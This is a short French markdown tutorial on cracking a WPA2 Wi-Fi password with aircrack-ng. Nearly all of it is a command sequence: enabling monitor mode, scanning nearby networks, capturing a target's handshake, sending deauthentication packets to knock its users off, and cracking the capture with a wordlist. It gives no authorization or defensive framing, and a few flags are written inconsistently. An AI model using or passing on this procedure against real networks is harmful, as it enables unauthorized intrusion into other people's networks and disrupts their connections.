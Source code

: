 # Hacker un wifi WPA2

## pré requis :
Aircrack-ng :
    
- installation : `sudo apt-get install -y aircrack-ng`

## tuto :

1. choisir l'interface : 
   - `ifconfig`
  
2. kill tout les processus lancé et Lancer le mode moniteurr sur l'interface concernée :
   - `sudo airmon-ng check kill`
   - `sudo airmon-ng start [INTERFACE]`

3. Utiliser airodump pour scanner tous les réseaux aux alentours :
    -  `sudo airodump-ng [INTERFACEmon]`

4. Scanner le réseaux et mettre le handshake trouvé dans un fichier :
    
   - `sudo airodump-ng --bssid [BSSID] -c [CHANNEL] [INTERFACE] --write handshake/handshake.cap`\
    **help :** --bssid = bssid du wifi cible | -c = channel du wifi [1-13] | 
    --write = stocke les information capturé dans la location donnée

5. En laissant tourner le scan du handshake, envoyez des paquets de désauthentification aux autulisateurs du wifi :
   - `sudo aireplay-ng -0 100 -a [BSSID] [INTERFACE]`\
   **help :** -o = nombre de pacquet de désauthentification a envoyer | -a = Bssid du wifi cible

6. Cracker le handshake :
   - `sudo aircrack-ng handshake/handshake.cap-01.cap-w [WORDLIST] `\
   **help :** -w = location de la wordlist

7. enlever le mode moniteur et rallumer le service : 
   - `sudo airmon-ng stop [INTERFACE]`
   - ` sudo service network-manager restart`
  

